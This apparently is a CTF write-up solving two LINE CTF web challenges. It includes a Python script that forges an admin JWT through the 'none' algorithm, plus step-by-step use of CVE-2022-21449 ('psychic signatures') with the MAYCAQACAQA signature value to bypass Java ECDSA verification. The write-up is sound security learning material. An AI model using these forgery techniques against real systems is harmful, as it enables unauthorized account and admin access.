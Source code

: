 # Web

## jalyboy-baby


### Info

![](screenshots/1.png)

![](screenshots/4.png)

##solution:

First this when we click in login as guest we can see that a jwt is generated in a url param:


![](screenshots/2.png)



So first i tried to crack the secret key but it didnt work so i tried none algorithm attack using this python script:

```python
import jwt



given_token = 'eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.uHMs3WJcQ4kxWlcKpN0kcsQFx0tau9TW56GSBzt4AkOpW2pud0tNKRJUnq_tzjj3kYQcUFLiSv396qxatqvTkg'



try:

    decoded_token = jwt.decode(given_token, options={"verify_signature":False})
    print("Decoded Token:", decoded_token)


    decoded_token['sub'] = 'admin'


    # Encode the modified payload
    encoded_token = jwt.encode(decoded_token, None , algorithm=None)
    print("Encoded Token after modification:", encoded_token)

except jwt.ExpiredSignatureError:
    print("Token has expired.")
except jwt.InvalidTokenError:
    print("Invalid token.")
```

it gived me:

```bash
Decoded Token: {'sub': 'guest'}
Encoded Token after modification: eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdWIiOiJhZG1pbiJ9.
                                                    
```
when i pass it to the parameter :

![](screenshots/3.png)


the flag:
`LINECTF{337e737f9f2594a02c5c752373212ef7}`




###jalyboy-jalygirl:

this challenge had a really easy solution but i spent 2 hours to find it 


![](screenshots/6.png)
![](screenshots/5.png)


same thing when we try to login as guest we get a jwt in url,
after reading the source code the only diffrence from the first chall was this line
`KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);`

the web app uses eliptic curve to generate pair public keys, so i thought bout confusion attack and tried many ways to get the public key like using openssl 

##solution:

but i when i read the description again i felt like the problem is exactly in java and ES256's (eliptic curve) imlepmentation
so i searched deeply  till i found that there is a cve` CVE-2022-21449, known as “psychic signatures”`
basically tampering the body and then replacing the signature with the following value: `MAYCAQACAQA` will bypass the signature verification

so lets say we had this token :`eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9.HVaXPG5K69128-N-nmjB-tw3KxrABuGUbwcM0ukctAfMXhHqwkxoZ_cfBOoDquRTrH_g8qTlitX49TYjQIejzQ`

1- first thing is to delete the signature part so it would be :`eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJndWVzdCJ9`

2- second step is to modify the payload from `{"sub":"guest"}` to `{"sub":"admin"}` so the jwt will look like:
`eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9`

3-last step is adding the value:
`eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA`

passing this thru the paramter will give us the flag:

![](screenshots/7.png)

the flag:
`LINECTF{abaa4d1cb9870fd25776a81bbd278932}`




